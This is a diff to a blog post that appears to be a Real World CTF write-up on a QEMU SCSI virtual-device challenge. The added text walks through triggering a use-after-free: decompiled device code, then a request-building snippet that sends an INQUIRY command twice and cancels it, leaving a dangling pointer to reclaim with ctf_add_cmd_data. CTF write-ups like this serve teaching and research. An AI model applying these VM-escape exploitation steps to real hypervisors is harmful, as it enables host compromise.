

Before and after one commit to redpigsixsixsix/redpigsixsixsix.github.io, a Jekyll site: the page built from _posts/2021-04-01-RWCTF-SCSI.md, in a window 1280 px wide and 1400 px high, scrolled down 6841 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update 2021-04-01-RWCTF-SCSI.md

````diff
--- a/_posts/2021-04-01-RWCTF-SCSI.md
+++ b/_posts/2021-04-01-RWCTF-SCSI.md
@@ -184,7 +184,117 @@ Another bug is that you can bruteforce data after pw, if the value is not correc
 **One thing to notice is that**
 
 HOW do we make `scsi_device_find` function return 0, so that there will be a dangling pointer.
-A [wikipedia entry] provided some good points
+A [wikipedia entry](https://en.wikipedia.org/wiki/SCSI_command) provided some good points. We don’t really care what these do, as long as they accomplish our goal: leave a request enqueued but not yet completed (so we can cancel it).
+
+```
+sdev = scsi_device_find(&opaque->bus, tmp.target_bus, tmp.target_id, tmp.lun);
+
+
+ {
+    dev = (SCSIDevice_0 *)object_dynamic_cast_assert(
+                            &kid->child->parent_obj,
+                            "scsi-device",
+                            "hw/scsi/scsi-bus.c",
+                            2004,
+                            "scsi_device_find");
+    if ( dev->channel == channel && dev->id == ida )
+    {
+      if ( dev->lun == luna )
+        return dev;
+      target_dev = dev;
+    }
+  }
+```
+First step will be seeing what target_bus/target_id/lun combinations are valid and will be found in scsi_find_device. This function implements a linked list traversal, and stepping through in gdb we see there is only one device, with all three fields 0.
+
+If we set `target_bus`, `target_id` and `target.lun` all to 0, `scsi_device_find` wont return 0, and we can get into the if branch.
+
+Then `scsi_req_new` will allocate a new request.
+
+Call `scsi_req_enqueue`, this function should return a non-zero value.
+```C
+rc = ((__int64 (__fastcall *)(SCSIRequest_0 *, SCSICommand_0 *))req->ops->send_command)(req, &req->cmd);
+```
+The return value is defined with `send_command`, which called `scsi_disk_emulate_command`.scsi_disk_emulate_command which calls…
+scsi_disk_emulate_inquiry which returns nonzero (legal request) if we meet the two checks [here](https://github.com/qemu/qemu/blob/68f1b569dccdf1bf2935d4175fffe84dae6997fc/hw/scsi/scsi-disk.c#L809) (lines 809 and 814)
+if scsi_disk_emulate_inquiry returned nonzero, also returns nonzero, which for the top-level ctf_process_req goes on to call…
+
+Then the `scsi_req_continue` will call
+1. req->ops->read_data()
+2. scsi_disk_emulate_read_data
+3. scsi_req_data()
+4. req->bus->info->transfer_data()
+5. ctf_dma_write()
+6. if ctf_dma_write() returns non-zero, calls scsi_req_continue
+
+Lets check what ctf_dma_write did.
+```
+int __cdecl ctf_dma_write(CTFState *opaque, char *buf, int len)
+{
+  int result; // eax
+  int lena; // [rsp+Ch] [rbp-24h]
+
+  lena = len;
+  if ( opaque->dma_buf )
+  {
+    opaque->state |= 0x40u;
+    opaque->dma_need = len;
+    result = 0;
+  }
+  else
+  {
+    opaque->dma_buf = (char *)malloc(len);
+    if ( opaque->dma_buf )
+    {
+      opaque->dma_buf_len = lena;
+      memcpy(opaque->dma_buf, buf, lena);
+      opaque->state |= 8u;
+      result = 1;
+    }
+    else
+    {
+      result = 0;
+    }
+  }
+  return result;
+}
+```
+For the first request, this will take the branch that mallocs and returns 1, meaning ctf_transfer_data will call scsi_req_continue and ctf_request_complete (nulling out cur_req).
+
+However if we send a 2nd identical request, ctf_dma_write will return 0, meaning ctf_request_complete will not be called. This means state->cur_req won’t be zeroed out, and we’ll be able to cancel it to free it (by sending a subsequent request with no matching device).
+
+```
+struct req_head* req = kzalloc(sizeof(struct req_head)+6, GFP_KERNEL);
+req->buf_len = 6; // INQUIRY has length 6
+req->data[0] = 0x12; // INQUIRY request
+req->data[1] = 0x40; // data[1] and data[2] make it so scsi_disk_emulate_inquiry
+req->data[2] = 0;    // (called from scsi_disk_emulate_command) doesnt fail and return -1
+req->data[3] = 0x17; // xfer is 16bit from data[3:4], will be 0x1734
+req->data[4] = 0x34; // (determines how much data transferred/malloced)
+req->data[5] = 0x51; // last byte is...?? doesnt seem used no idea dont care
+auth();
+send_req(req); // first request completes
+send_req(req); // this one doesn't complete
+
+req->target_bus = 17; // no matching device
+send_req(req); // cancels previous but doesnt get enqueued, cur_req dangling to previous request
+```
+
+`completed->doesnt conpleted->canceled(UAF triggered)`
+Now we need to reclaim this UAFed area. `ctf_add_cmd_data` can be used to accomplish that.
+```
+void ctf_add_cmd_data(CTFState* state, uint64_t val) {
+    uint64_t addr = state->register_a | state->register_b; // this actually involved shifting 32, but theyre ints, so did nothing...
+    if (!(state->state & ST_DATA_WRITTEN_TO_DMA)) {
+        if (!state->dma_buf) {
+            state->dma_buf = malloc(val); // arbitrary size
+            if (state->dma_buf)
+                cpu_physical_memory_read(addr, state->dma_buf, val); // arbitrary data
+        }
+    }
+}
+```
+
 
 
 # Exploit
@@ -258,4 +368,5 @@ gdb-peda$ x/20gx 0x55fc60b2115d
 0x55fc60b2117d <ctf_dma_read+32>:	0x08e08300000a5080	0xf8458b483074c085
 0x55fc60b2118d <ctf_dma_read+48>:	0xc88300000a50808b	0x89f8458b48c28904
 ```
-Then use the dangl
+
+Then we just create a new SCSI request
````
